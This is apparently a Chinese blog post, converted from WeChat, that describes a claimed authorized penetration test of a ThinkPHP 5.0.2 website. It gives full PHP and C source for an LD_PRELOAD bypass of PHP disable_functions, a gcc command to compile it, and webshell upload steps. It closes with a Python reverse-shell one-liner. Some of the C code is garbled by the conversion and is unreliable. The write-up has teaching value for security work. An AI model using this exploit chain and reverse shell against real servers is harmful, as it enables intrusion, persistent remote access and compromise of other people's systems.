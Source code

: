 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/xwu7aXaxI6ombHF5XX5WVQ)

一次授权测试中，发现网站是 ThinkPHP 5.0.2 搭建的

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09w6Xth5xWIzupiaShFgnQmsNXKxuias103bqU2XYJcVGibkK9yjJbyNlKbGbOADjuQkFm8QErrOyDfQ/640?wx_fmt=png)

漏洞存在 ThinkPHP 5.0.2 命令执行

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09w6Xth5xWIzupiaShFgnQmsZIky0HK7BmcfMs2dH5h3kHCuusybsm3xLw2JJKnkowEgv2Z5jtaaiaQ/640?wx_fmt=png)

尝试写入冰蝎 3.0 的马

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09w6Xth5xWIzupiaShFgnQmszKHeYN2fnFiaL47KFtYibV9YAtcPlmIyNfr9JeibIKuhtUVGX8aMdTPyA/640?wx_fmt=png)

写入报错发现是 & 的问题。将 & url 编码。再次尝试

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09w6Xth5xWIzupiaShFgnQmsc9GfvB9jeEaVyyiaXyS8ed9G2zVBPQlREGIHmWxrh6G7lXarzq0Ufmg/640?wx_fmt=png)

链接失败。

经过本地尝试，发现是 + 的问题，再写入后，将 + 变为了空格。将其 url 编码，再次写入链接发现失败，继续肝。

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09w6Xth5xWIzupiaShFgnQmsNFnjZwIjbMl7YZ0ku9HGUdA7XSP2pRIKTCyic4ofjGlLAxVFiaxpVzcQ/640?wx_fmt=png)

除了写入，还可以使用 PHP 中的 copy 函数，在 vps 上开启服务，将 vps 的马子，直接下载至目标服务器上

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09w6Xth5xWIzupiaShFgnQmsPomd41XZbDPVv3ed7c52r0FBOtVxX5bo0G6iciazueKK0svmW4icn9AIw/640?wx_fmt=png)

链接成功，接下来肯定是 whoami 一下。

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09w6Xth5xWIzupiaShFgnQmsxlj2fTcgbBBatXja3a3VWpMicU0dhJf5TASoU3m2AQcfNbCib56csaiag/640?wx_fmt=png)

查看 disable\_functions，发现是可爱的宝塔禁用了

passthru,exec,system,chroot,chgrp,chown,shell\_exec,popen,proc\_open,ini\_alter,ini\_restore,dl,openlog,syslog,readlink,symlink,popepassthru

还有啥是宝塔不能禁的。。。还能怎么办，接着肝，在网上学习了大佬的帖子

https://www.meetsec.cn/index.php/archives/44/

尝试利用 LD\_PRELOAD 绕过 disable\_functions

直接上代码

**bypass\_disablefunc.php**

```
<?php
echo "<p> <b>example</b>: http://site.com/bypass\_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass\_disablefunc\_x64.so </p>";


    $cmd = $\_GET\["cmd"\];
    $out\_path = $\_GET\["outpath"\];
    $evil\_cmdline = $cmd . " > " . $out\_path . " 2>&1";
echo "<p> <b>cmdline</b>: " . $evil\_cmdline . "</p>";


    putenv("EVIL\_CMDLINE=" . $evil\_cmdline);


    $so\_path = $\_GET\["sopath"\];
    putenv("LD\_PRELOAD=" . $so\_path);


    mail("", "", "", "");


echo "<p> <b>output</b>: <br />" . nl2br(file\_get\_contents($out\_path)) . "</p>"; 


    unlink($out\_path);
?>
```

**bypass\_disablefunc.c**  

```
#define \_GNU\_SOURCE


#include stdlib.h
#include stdio.h
#include string.h




extern char environ;


\_\_attribute\_\_ ((\_\_constructor\_\_)) void preload (void)
{
get command line options and arg
const char cmdline = getenv(EVIL\_CMDLINE);


     unset environment variable LD\_PRELOAD.
     unsetenv(LD\_PRELOAD) no effect on some 
distribution (e.g., centos), I need crafty trick.
int i;
for (i = 0; environ\[i\]; ++i) {
if (strstr(environ\[i\], LD\_PRELOAD)) {
                    environ\[i\]\[0\] = '0';
            }
    }


executive command
system(cmdline);
}
```

用命令 gcc -shared -fPIC 

bypass\_disablefunc.c -o bypass\_disable

func\_x64.so 将 bypass\_disablefunc.c 编译为共享对象

bypass\_disablefunc\_x64.so：

要根据目标架构编译成不同版本，在 x64 的环境中编译，若不带编译选项则默认为 x64，若要编译成 x86 架构需要加上 -m32 选项。通过冰蝎上传，然后测试效果：

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09w6Xth5xWIzupiaShFgnQmsNDXLg1o3UK0SQD8XibiaQ3Q2MYriben3Rq21e7PrGDsgic9Xrdd6EK6dHA/640?wx_fmt=png)

命令执行成功。Nc 反弹 shell

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09w6Xth5xWIzupiaShFgnQmsKwibGLDHGyzqR6ycaQkOosc2ia6BoicnVjqibSo6JIdwl2G2iaS8j2REb5A/640?wx_fmt=png)

提示没有 - e 的参数，直接使用 python 反弹

python -c 'import 

socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("127.0.0.1",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09w6Xth5xWIzupiaShFgnQmsBQEAtC9rbwPVoibH3HtLyOKEephiaia3Lll2Z7ADn8aibtfwBqqKiaj3xxg/640?wx_fmt=png)

反弹成功

**总结**：这次的测试，写入冰蝎的过程要注意编码问题。然后就是利用 LD\_PRELOAD 绕过 disable\_functions。

end

  

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09w6Xth5xWIzupiaShFgnQms2XKNvgFv6Oyg3ibhs1GQolo6OiaEZGdpjZtllZqyibkK0lKs1iclgSgSHA/640?wx_fmt=png)